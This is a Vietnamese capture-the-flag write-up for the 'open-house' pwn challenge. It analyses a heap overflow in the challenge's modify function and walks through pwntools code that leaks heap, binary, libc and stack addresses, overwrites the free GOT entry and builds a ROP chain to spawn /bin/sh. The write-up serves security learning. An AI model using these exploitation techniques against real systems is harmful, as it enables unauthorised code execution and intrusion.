






##### I. Tìm bug

- 

- Kiểm tra các chế độ bảo vệ cơ bản ta thấy được `canary ` và `relro` `disable`. 

- 

- Chương trình thực hiện các tính năng như `comment`, `view`, `modify`, `delete` và `quit`.

- `comment` giúp ta tạo một `comment` mới và max 11 `comment` , khi khởi tạo ta đã có sẵn 10 `comment`.

- `modified` ta có thể chỉnh sửa `comment` với option này. Còn các option còn lại không có gì quá lạ với kiểu bài như này.

- Struct của một `comment` được cấu tạo như sau:

- ```c
  #define INPUT_SIZE 512
  #define ALARM_SECONDS 180
  
  struct __attribute__((packed)) item  {
      char buf[INPUT_SIZE];
      struct item* next;
      struct item* prev;
  };
  ```

- Các `comment` được liên kết với nhau theo kiểu liên kết đôi.

- Tới với tính năng đầu tiên `comment`, mình sẽ dùng [source](https://github.com/Nautilus-Institute/quals-2023/blob/main/open-house/src/open-house.c) cho dễ hình dung vì ida rất khó nhìn:

- ```c
  void new(char *msg)
  {
      struct item *ptr;
      unsigned int len;
  
      // Seek through our linked list to find the tail
      for (ptr = &head; ptr->next; ptr = ptr->next);
  
      // Create a new entry and link it to the list
      ptr->next = malloc(sizeof(struct item));
      ptr->next->prev = ptr;
      ptr = ptr->next;
  
      ptr->next = 0;  // new entry is now the tail
  
      totalReviews++; 
  
      // Copy message into the buffer
      len = (strlen(msg) > 512) ? 512 : strlen(msg);
      strncpy(ptr->buf, msg, len);
      // Intentionally missing a NULL-terminator here to create a pointer leak
  
      // fprintf(stderr, "NewNode = %p %p\n", &ptr->next, ptr);
  
      return;
  }
  
  void create()
  {
      char input[INPUT_SIZE*2];
  
      // Receive review from user
      fputs("Absolutely, we'd love to have your review!\n", stdout);
      if (fgets(input, INPUT_SIZE*2, stdin) == NULL) {
          return;
      }
  
      // If we received a review, place it at the end of the list
      if (strlen(input) > 0) {
          new(input);
          fputs("Thanks!\n", stdout);
      } else {
          fputs("I know. I'm speechless, too! It really is a great property.\n", stdout);
      }
  
      return;
  }
  ```

- Với tính năng này nó sẽ tạo một `comment`với max size là 512, và chúng hoàn toàn được tạo trên heap.

- Bug nằm ở `modify`:

- ```c
  void modify()
  {
      struct item *ptr = &head;
      char buf[INPUT_SIZE+16];
      unsigned long selection;
  
      // Ask user for their selection
      fputs("Which of these reviews should we replace?\n", stdout);
      if (fgets(buf, INPUT_SIZE+16, stdin) == NULL) {
          return;
      }
  
      // Advance ptr to their selection
      selection = strtoul(buf, NULL, 10);
      for (unsigned int i = 0; i != selection; i++) {
          ptr = (ptr->next) ? ptr->next : ptr;
          if(ptr->next == NULL)
          {
              break;
          }
      }
  
      //  fprintf(stderr, "MOD PTR = %p Head = %p %d\n", ptr, &head, &head == ptr);
      // Replace their selection with their input
      fprintf(stdout, "Replacing this one: %s\n", ptr->buf);
      fputs("What do you think we should we replace it with?\n", stdout);
      if (fgets(ptr->buf, INPUT_SIZE+16, stdin) == NULL) {
          return;
      }
  
     //  fprintf(stderr, "MOD FIN head.next = %p head.prev = %p tot = %d rev = %d\n", head.next, head.prev, totalReviews, reviewed);
  
      return;
  }
  ```

- Khi nó cho ta `rewrite` với `size+0x10` gây ra overflow điều này khiến ta có thể thay đổi được `next` và `prev` của một `comment`.

##### II. Ý tưởng

- Với việc mọi thứ được cấp phát trên `heap` và chỉ duy nhất `root` của `comment` thì mới nằm trên `binary`, do đó thứ ta cần là địa chỉ của `heap`.

- Do tất cả đều nằm trên heap nên `next` và `prev` cũng vậy, ta sẽ nhập một comment `0x200*b'a'` để nó chạm tới `next` và in cùng ra. Tuy nhiên điều này sẽ không thể được vì hàm input lại là `fgets` nó sẽ tự động thêm `null byte` vào cuối chuỗi. Khi ra soát lại thì có thể thấy rằng nếu `next` của một `comment` là `null` thì tức là `comment` cuối cùng nên khi tạo một `comment` mới thì `next` này sẽ trỏ vào `comment` mới. Vậy nên ta chỉ cần sửa comment cuối cùng thành `0x200*b'a' + p32(0) # do fgets có cả byte '\n'` xong đó tạo một `comment` mới thì `next` sẽ được in ra cùng với `comment`.

- Sau khi có `heap` ta sẽ leak `binary` thông qua `prev` của `comment` kế `root`. Từ binary thì có thể `leak` libc, do không biết là có `root` nên mình đã sử dụng một cách phức tạp hơn là `overlap` chunk để leak `libc` tại `unsorted bin` rồi leak `stack` và leak `binary`. Đều này có vẻ bất khả thi nhưng mình đã `fuzz libc` và biết được rằng `libc` của server được custom. Tuy nhiên một số `libc` với `offset` của nó lại có `environ` đúng nên mình đã `leak` được `stack`.

- Do không có `libc` nên không thể thực hiện kỹ thuật `ret2libc` được và các `gadget` có sẵn trên `binary` không đủ cho ta thực hiện lấy shell. Nhưng tác giả đã cố tình cho ta một `libc_write`

- ```c
  void alarm_handler(int signal){
      (void)signal;
  
      char *bye = "I'm sorry, the open house is closing now. Bye!\n";
      write(1, bye, strlen(bye));
      exit(1);
  }
  ```

- Hàm này được cấu tạo từ `syscall` cơ bản, và ta có thể lợi dụng nó để setup `sys_execve`.

- 

- Đây là hàm được call tại `gs:0x10`

- 

- Để cho chắc ăn mình ta in `asm` của `libc_write` trên `server` và decode lại cho chắc.

- Dựa vào đoạn trên ta có sẵn `mov edx, [esp+0x28]`,  `int 0x80` cộng thêm `pop ebx ; ret` từ `binary` với `ecx = 0` sẵn thì ta chỉ cần tìm cách setup `eax` nữa là xong.

- Và mình tìm được đoạn mã sau:

- 

- Nó giúp ta setup eax và call `free`, ta có thể thay đổi got free thành `libc_write+44` để setup `edx` và gọi `int 0x80`.

##### III. Khai thác

- Leak heap:

- ```py 
  c(b'chino') # open option modify, delete
  md(b'd', 11)
  md(b'm', 10, b'a'*0x1fb + b'abcd')
  c(b'chino')
  v()
  r.recvuntil(b'abcd\n')
  heap = u32(r.recv(4))
  info('heap: ' + hex(heap))
  ```

- Leak binary:

- ```py
  payload = b'a'*0x200 + p32(heap - 0x22ac)+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  bin = u32(r.recv(4))
  exe.address = bin - 0x3164
  info('bin: ' + hex(exe.address))
  ```

- Leak libc:

- ```py
  payload = b'a'*0x200 + p32(exe.got['free'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  libc.address = u32(r.recv(4)) - libc.sym['free']
  info('libc: ' + hex(libc.address))
  ```

- Leak stack:

- ```py
  payload = b'a'*0x200 + p32(libc.sym['environ'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  v()
  r.recvuntil(b'\n\n**** - ')
  stack = u32(r.recv(4))
  info('stack: ' + hex(stack))
  ```

- Overwrite `free` got và rewrite `fgets`:

- ```python
  payload = b'a'*0x200 + p32(exe.got['free'])+ p32(heap-0x2090)
  md(b'm', 4, payload)
  md(b'm', 5, p32(libc.sym['write']+0x2c) + p32(libc.sym['fgets']))
  ```

- Overwrite saverip `modify` :

- ```python
  payload = b'a'*0x200 + p32(stack-0x100)+ p32(heap-0x2090)
  md(b'm', 4, payload)
  payload = p32(exe.sym['pop_ebx']) + p32(stack-0xc8) + p32(exe.sym['call']) + b'\x00'*0x28 + p32(0xb) + b'/bin/sh\x00' + b'\x00'*0x8 + p32(libc.sym['write']+0x2c)
  md(b'm', 5, payload)
  ```

- Get shell:

- 
